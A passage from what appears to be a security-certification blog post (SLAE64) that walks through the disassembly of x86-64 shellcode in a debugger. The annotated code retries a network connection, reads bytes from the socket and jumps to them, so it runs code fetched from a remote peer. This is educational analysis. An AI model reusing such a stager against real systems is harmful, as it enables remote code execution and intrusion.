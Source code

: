     ; fast forward to 0x4000c2, and x/20i 0x4000c2:
    ; at 0x4000ce we see that the syscall will be sys_nanosleep
    ; this means that the code will sleep 5 seconds (defined at 0x4000d3)
    ; after the connect
    0x4000c2:    pop    rcx
    0x4000c3:    test   rax,rax
    ; if everithing's fine, go *after* an exit call
    ; else, loop using r9 as counter (set to 0xa at 0x400096) to retry the connection
    0x4000c6:    jns    0x4000ed
    0x4000c8:    dec    r9
    ; and jumps to 0x4000e5 as soon as the connection is established
    0x4000cb:    je     0x4000e5
    0x4000cd:    push   rdi
    0x4000ce:    push   0x23
    0x4000d0:    pop    rax
    0x4000d1:    push   0x0
    0x4000d3:    push   0x5
    0x4000d5:    mov    rdi,rsp
    0x4000d8:    xor    rsi,rsi
    0x4000db:    syscall

looks harmless again, because just waits for something and doesn't "elaborate". yet.
b *0x4000dd after the syscall and x/20i 0x4000dd:

    ; this code basically exit if there is an error, from 0x4000e5 is also used as
    ; neat exit before
    0x4000dd:    pop    rcx
    0x4000de:    pop    rcx
    0x4000df:    pop    rdi
    0x4000e0:    test   rax,rax
    0x4000e3:    jns    0x4000ac
    0x4000e5:    push   0x3c
    0x4000e7:    pop    rax
    0x4000e8:    push   0x1
    0x4000ea:    pop    rdi
    0x4000eb:    syscall
    ; if connect will not raises issue, we land here.
    ; this syscall isactually a read, because rax is 0x0 from last syscall
    ; she reads input from connection and put it at rsi, jumps to 0x4000e5 (neat exit)
    ; if there is any issue or jmp to rsi by executing the code
    0x4000ed:    pop    rsi
    0x4000ee:    push   0x26
    0x4000f0:    pop    rdx
    0x4000f1:    syscall
    0x4000f3:    test   rax,rax
    0x4000f6:    js     0x4000e5
    0x4000f8:    jmp    rsi

this code is not malicious per-se, everything depends on what she receives of course.

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
*SLAE64-1497*
